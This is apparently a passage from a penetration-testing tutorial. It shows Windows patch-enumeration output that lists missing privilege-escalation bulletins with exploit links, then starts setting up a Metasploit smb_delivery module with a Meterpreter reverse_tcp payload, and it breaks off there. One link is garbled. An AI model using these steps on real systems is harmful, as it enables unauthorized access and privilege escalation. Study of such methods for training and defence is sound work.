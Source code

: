 ```powershell-session

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/thttps://us-cert.cisa.gov/ncas/alerts/aa20-133aree/master/MS16-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.html
VulnStatus : Not Vulnerable
```

### Obtaining a Meterpreter Shell

From the output, we can see several missing patches. From here, let's get a Metasploit shell back on the system and attempt to escalate privileges using one of the identified CVEs. First, we need to obtain a `Meterpreter` reverse shell. We can do this several ways, but one easy way is using the `smb_delivery` module.
```shell-session
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery

Matching Modules
================
   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   0  exploit/windows/smb/smb_delivery  2016-07-26       excellent  No     SMB Delivery
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/smb_delivery


msf6 exploit(windows/smb/smb_delivery) > use 0

[*] Using configured payload windows/meterpreter/reverse_tcp


```